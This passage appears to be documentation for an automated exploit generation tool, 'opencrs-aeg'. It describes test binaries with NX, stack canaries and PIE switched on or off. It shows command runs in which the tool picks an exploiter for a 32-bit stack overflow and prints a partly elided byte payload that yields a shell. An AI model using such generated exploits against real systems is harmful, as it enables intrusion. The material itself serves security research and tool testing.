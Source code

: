 1. Two with NX, canaries, and PIE disabled; and
2. One with NX enabled + canaries and PIE disabled.

Furthermore, one executable contained a sensitive function that could be used in the exploit (as a substitute to, say, other symbols). In every example, the module effectively developed exploits.

```bash
➜ opencrs-aeg recommend --elf bof_nx_32 --stream=STDIN --mitigation=NX --weakness=STACK_OUT_OF_BOUND_WRITE
Exploiters that can be used considering the context are:
- ZERATOOL
```

```bash
➜ opencrs-aeg exploit --exploiter ZERATOOL --elf bof_nx_32 --stream STDIN --mitigation NX --weakness STACK_OUT_OF_BOUND_WRITE
The exploiter could generate an exploit with the outcome of SHELL and the following payloads:

- For STDIN:
[...]
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x90\x04\x08baaa\x1e\xa0\x04\x08\x00\x00\x00\x00\x00
[...]
```
